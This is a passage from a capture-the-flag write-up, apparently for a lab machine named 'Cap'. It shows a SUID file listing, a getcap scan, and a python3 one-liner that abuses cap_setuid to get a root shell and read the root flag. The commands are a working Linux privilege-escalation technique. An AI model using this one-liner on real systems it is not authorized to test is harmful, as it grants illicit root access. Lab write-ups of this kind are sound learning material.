 ```console
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/1997/bin/mount
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
```

Got nothing interesting from the list. I started looking for any hints in the forum. There was one hint, 'the machine name is a big hint for all'. I searched for 'Cap linux' and got that cap means capabilities in Linux. Then I searched for 'capabilities linux priv esc'. From this article [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) I got the solution for my next steps.

```console
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

cap_setuid enabled for python3. Use this to get root shell.

```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# pwd
/home/nathan
root@cap:~# cat /root/root.txt
97d73be5289b560b9ad38430ff79b0c3
root@cap:~#
```

